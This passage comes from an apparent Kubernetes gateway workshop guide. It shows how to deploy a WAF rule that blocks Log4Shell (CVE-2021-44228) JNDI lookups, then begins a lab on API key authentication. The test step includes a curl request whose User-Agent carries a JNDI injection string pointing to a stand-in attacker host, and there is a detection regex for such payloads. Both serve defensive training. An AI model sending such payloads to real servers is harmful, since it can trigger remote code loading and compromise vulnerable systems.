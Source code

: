 ```yaml
kubectl apply -f - <<'EOF'
apiVersion: security.policy.gloo.solo.io/v2
kind: WAFPolicy
metadata:
  name: log4jshell
  namespace: dev-team
spec:
  applyToRoutes:
  - route:
      labels:
        route: httpbin ##### NOTE
  config:
    disableCoreRuleSet: true
    customInterventionMessage: 'Log4Shell malicious payload'
    customRuleSets:
    - ruleStr: |-
        SecRuleEngine On
        SecRequestBodyAccess On
        SecRule REQUEST_LINE|ARGS|ARGS_NAMES|REQUEST_COOKIES|REQUEST_COOKIES_NAMES|REQUEST_BODY|REQUEST_HEADERS|XML:/*|XML://@*
          "@rx \${jndi:(?:ldaps?|iiop|dns|rmi)://"
          "id:1000,phase:2,deny,status:403,log,msg:'Potential Remote Command Execution: Log4j CVE-2021-44228'"
EOF
```

4. Try the previous request again.

```sh
curl -ik -X GET -H "User-Agent: \${jndi:ldap://evil.com/x}" https://$GLOO_GATEWAY/httpbin/get
```

Note that the request is now blocked with the custom intervention message from the WAF policy.

```sh
HTTP/2 403
content-length: 27
content-type: text/plain
date: Wed, 18 May 2022 21:20:34 GMT
server: istio-envoy

Log4Shell malicious payload
```

Your frontend app is no longer susceptible to `log4j` attacks, nice!

### Lab 9 - Authentication / API Key <a name="Lab-9"></a>

API key authentication is one of the easiest forms of authentication to implement. Simply create a Kubernetes secret that contains the key and reference it from the `ExtAuthPolicy`. It is recommended to label the secrets so that multiple can be selected and more can be added later. You can select any header to validate against.

1. Create two secrets that Gloo will validate against. One with the api-key `admin` and the other `developer`.
